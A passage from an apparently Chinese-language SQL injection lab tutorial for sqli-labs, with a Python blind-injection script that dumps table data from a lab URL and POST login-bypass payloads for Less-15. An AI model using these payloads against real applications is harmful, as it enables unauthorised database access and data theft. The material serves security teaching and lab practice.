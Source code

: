 ```python
			dump_data=''
			for l in range(1,21):#l表示每条数据的长度，合理范围即可
				data_len_payload=url+"' and ascii(substr((select %s from %s.%s limit %d,1),%d,1))--+"%(i,db_name,table_list[3],k,l)
				r=requests.get(data_len_payload)
				if str not in r.text:
					data_len=l-1
					for x in range(1,data_len+1):#x表示每条数据的实际范围，作为mid截取的范围
						for y in str_list:
							data_payload=url+"' and ord(mid((select %s from %s.%s limit %d,1),%d,1))=%d--+"%(i,db_name,table_list[3],k,x,ord(y))
							r=requests.get(data_payload)
							if str in r.text:
								dump_data+=y
								break
					break
			print('[+]%s'%dump_data)#输出每条数据



if __name__ == '__main__':
	url="http://192.168.70.14:8088/Less-5/?id=1"#目标url
	str="You are in"#布尔型盲注的true&false的判断因素
	db_length(url,str)#程序入口
```



### **四、Post 基于布尔的盲注**

在存在的注入点 POST 提交的参数后，加入 `if` 判断正确或者错误的语句

> length(databse());
>
> substr(databse(),1,1);
>
> ascii(substr(database(),1,1))>N;
>
> ascii(substr(database(),1,1))=N;
>
> ascii(substr(database(),1,1))<N;

Payload//如果不知道用户名用 `or`，但**要求用户名要做到不正确**，找一个最不像用户名的用户名

```
uname=admin' and (length(database())>7) --+&passwd=admin123456&submit=Submit
uname=dddd' or length(database())>7 -- &passwd=admin&submit=Submit
```

#### less-15 布尔盲注

##### 数据库名长度

```
uname=admin' or length(database())=8--+
```
